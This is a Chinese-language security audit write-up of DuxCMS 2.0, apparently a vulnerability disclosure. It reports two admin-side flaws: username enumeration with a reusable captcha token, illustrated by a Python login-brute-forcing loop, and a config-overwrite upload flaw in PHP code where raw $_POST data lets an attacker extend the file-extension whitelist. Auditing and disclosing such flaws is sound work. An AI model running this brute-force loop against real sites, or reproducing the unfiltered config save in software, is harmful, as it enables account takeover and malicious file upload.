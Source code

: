 # DuxCMS 2.0审计

## 后台登录页存在用户名密码爆破

用户名不存在会爆不存在，验证码与token绑定不过期

```
import requests
import time
url = 'http://y4y4.top/s/system/Login/index'

data = {
'username': 'adminzzz',
'password': 'zzzaddsadsadsaasd',
'val_code': '8g3d',
'val_token': '09d9218436e9f08a4fc683171df11e20',
'val_time': '1618813312'
}

while 1:
    r = requests.post(url, data=data)

    print(r.text)
    time.sleep(1)
```

## 后台页面存在文件上传漏洞

在`app/system/admin/ConfigAdmin.php`中

我们可以看见

```php
public function upload() {
    $file = 'data/config/use/upload';
    if (!isPost()) {
        $config = load_config($file);
        $this->assign('info', $config['dux.use_upload']);
        $this->assign('driverList', \dux\Config::get('dux.upload_driver'));
        $this->assign('imageList', \dux\Config::get('dux.image_driver'));
        $this->assign('hookMenu', $this->menu());
        $this->systemDisplay();
    } else {
        if (save_config($file, ['dux.use_upload' => $_POST])) {
            $this->success('上传配置成功！');
        } else {
            $this->error('上传配置失败');
        }
    }
}
```

在`save_config($file, ['dux.use_upload' => $_POST])`发现通过传参可以覆盖`data/config/use/upload.php`下的配置文件，从而实现文件后缀白名单的添加

![](pic/1.png)

